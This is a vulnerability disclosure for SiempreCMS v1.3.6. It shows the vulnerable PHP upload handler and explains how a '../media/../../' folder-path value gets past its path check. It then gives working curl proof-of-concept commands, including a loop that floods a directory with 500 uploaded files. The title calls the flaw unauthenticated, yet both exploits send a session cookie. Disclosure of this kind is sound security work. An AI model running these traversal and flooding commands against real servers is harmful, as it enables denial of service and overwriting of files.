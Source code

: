 # Unauthenticated File Upload Allows Server Flooding – SiempreCMS

## Vulnerability Overview

- **Type:** Arbitrary File Upload / Resource Exhaustion  
- **Location:** `docs/admin/file_upload.php`  
- **Impact:** An attacker can upload files to arbitrary directories under `../media/`, including hidden module directories. While uploaded files cannot be executed as PHP scripts in this setup, the vulnerability allows **flooding a specific directory with large numbers of files**, potentially exhausting disk space, degrading server performance, or causing denial-of-service conditions.  
- **Product:** *[SiempreCMS v1.3.6](https://github.com/SiempreCMS/SiempreCMS)*
---

## Vulnerable Code Analysis

```php
if (isset($_POST['folder-path']) && substr($_POST['folder-path'], 0, 9) == '../media/') {
	$path = $_POST['folder-path'];
} else {
	$status = 'Bad request in folder path!';
	echo json_encode(array('status' => $status));
	exit();
}

if ($_SERVER['REQUEST_METHOD'] === 'POST' && @is_uploaded_file($_FILES['image']['tmp_name'])) {
	$ext = strtolower(pathinfo($_FILES['image']['name'], PATHINFO_EXTENSION));
	if (in_array($ext, $valid_exts) AND $_FILES['image']['size'] < $max_size) {
		$path = $path . $_FILES['image']['name'];
		if (move_uploaded_file($_FILES['image']['tmp_name'], $path)) {
			$status = 'Image successfully uploaded!';
		} else {
			$status = 'Upload Fail: Unknown error occurred!';
		}
	} else {
		$status = 'Upload Fail: Unsupported file format or It is too large to upload!';
	}
} else {
	$status = 'Upload Fail: File not uploaded!';
}
```

### Analysis
**Folder Path Control:** The code allows uploading files to any directory that begins with ``../media/.`` By manipulating folder-path, attackers can reach hidden or sensitive directories such as ``modules/helloworld/``.

#### **File Type & Size Validation:**

-    Only extensions in ``['jpeg','jpg','png','gif','doc','docx','pdf']`` are allowed.
-    Maximum size is 1600 KB.
-    While this prevents arbitrary PHP execution, it does not prevent mass upload of allowed files.
-    No Filename Sanitization: The uploaded file name is directly concatenated to the path, allowing overwriting existing files.
-    No Execution: Uploaded files cannot be executed as PHP code in this configuration.

---
### Proof of Concept Arbitrary File Upload / Resource Exhaustion (Flooding)
#### Exploit 1: Basic Upload
-    This PoC demonstrate a file upload in other directories.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ curl -X POST \
 -b "PHPSESSID=0518ouv9ppu0c8u5rvkkrcfhgl" \
 -F "folder-path=../media/../../modules/helloworld/" \
 -F "image=@sample.txt.jpeg;filename=shell.txt.jpeg" \
 http://localhost/SiempreCMS/docs/admin/file_upload.php

{"status":"Image successfully uploaded!"}
```

**Evidence:**
</br>
![](./basic.png)


#### Exploit 2: Directory Flooding
-    This PoC demonstrates uploading a large number of files to the vulnerable directory, which can consume server resources and slow down the application.

```bash
# Flood the modules/helloworld/ directory with 500 files
NUM_FILES=500

for i in $(seq 1 $NUM_FILES); do
  # Generate a sample file
  echo "This is test file $i" > sample_$i.txt
  # Rename with allowed extension
  mv sample_$i.txt sample_$i.txt.jpeg
  # Upload file
  curl -s -X POST \
   -b "PHPSESSID=0518ouv9ppu0c8u5rvkkrcfhgl" \
   -F "folder-path=../media/../../modules/helloworld/" \
   -F "image=@sample_$i.txt.jpeg;filename=sample_$i.txt.jpeg" \
   http://localhost/SiempreCMS/docs/admin/file_upload.php
done
```

**Evidence:**
</br>
![](./cli.png)

</br>

![](./gui.png)

---

### Expected Outcome
-    Hundreds of files are uploaded to modules/helloworld/.
-    Disk usage in the directory increases significantly.
-    Server performance may degrade due to the large number of files.
-    Existing files in the directory can be overwritten if the same filename is used.
-    No PHP execution occurs, so it’s not remote code execution.

